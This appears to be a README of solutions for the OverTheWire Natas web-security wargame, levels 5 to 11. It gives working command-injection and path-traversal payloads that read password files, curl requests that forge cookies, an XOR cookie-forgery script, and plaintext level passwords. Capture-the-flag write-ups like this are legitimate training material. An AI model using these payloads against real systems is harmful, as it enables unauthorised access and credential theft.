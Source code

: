 # NatasChallenge
This is the solution to all Natas levels

### Level 5 [(http://natas5.natas.labs.overthewire.org/)](http://natas5.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas5.natas.labs.overthewire.org/index.php -H "Authorization: Basic bmF0YXM1OlowTnNydElrSm9LQUxCQ0xpNWVxRmZjUk44MkF1Mm9E" -H "Cookie: loggedin=1"
2.You will get the natas6 password : fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

### Level 6 [(http://natas6.natas.labs.overthewire.org/)](http://natas6.natas.labs.overthewire.org/)
```
1.Curl like this : curl http://natas6.natas.labs.overthewire.org/includes/secret.inc -H "Authorization: Basic bmF0YXM2OmZPSXZFME1EdFBUZ1JocW1tdnZBT3QyRWZYUjZ1UWdS"
2.You will get secret : FOEIUWGHFEEUHOFUOIU
3.Submit the secret and you will get the natas 7 password : jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```

### Level 7 [(http://natas7.natas.labs.overthewire.org/)](http://natas7.natas.labs.overthewire.org/)
```
1.Visit the page like this : http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../..//etc/natas_webpass/natas8
2.You will get the natas8 password : a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

### Level 8 [(http://natas8.natas.labs.overthewire.org/)](http://natas8.natas.labs.overthewire.org/)
1.Read the source code and reverse the process
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
$result =  base64_decode(strrev(hex2bin($encodedSecret)));
echo $result;
```
2.You will get the "oubWYf2kBq" submit this secret and you will get the password of natas9 : Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

### Level 9 [(http://natas9.natas.labs.overthewire.org/)](http://natas9.natas.labs.overthewire.org/)
```
1.Source code has command injection vulnerability
2.Use this payload : "t; cat /etc/natas_webpass/natas10" to grab the password
3.You will get the password of nata10 : D44EcsFkLxPIkAAKLosx8z3hxX1Z4
```

### Level 10 [(http://natas10.natas.labs.overthewire.org/)](http://natas10.natas.labs.overthewire.org/)
```
1.Use this payload to bypass filters : "-v  test /etc/natas_webpass/natas11" or "-r . /etc/natas_webpass/* #"
2.You will get the password of natas11 : 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

### Level 11 [(http://natas11.natas.labs.overthewire.org/)](http://natas11.natas.labs.overthewire.org/)
```
Rule1 : key XOR cleartext = ciphertext
Rule2 : ciphertext XOR cleartext = key
we have ciphertext (cookie)
we get cleartext (step 3)
we generate key (step 4)
```
1.Copy the value of cookie in the browser

2.URL decode and base64 decode the value of cookie taken from step 1 (online cyberchef)

3.Use an online PHP editor and run the following code to get the json encoded value of array :

```php
<?php
echo json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
?> 
```
4.XOR the value of step 2 with value of step 3 (online cyberchef)

5.you will get the key : KNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLKNHLK, the key is KNHL

6.Use this PHP code to generate a new cookie
```php
<?php
$mydata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = 'KNHL';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
$result = base64_encode(xor_encrypt(json_encode($mydata)));
echo $result;
?>
```
7.Replace the generated value of step 6 into cookie storage of the browser and refresh

8.You will get the password of natas12 : YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

### Level 12 [(http://natas12.natas.labs.overthewire.org/)](http://natas12.natas.labs.overthewire.org/)
```

```

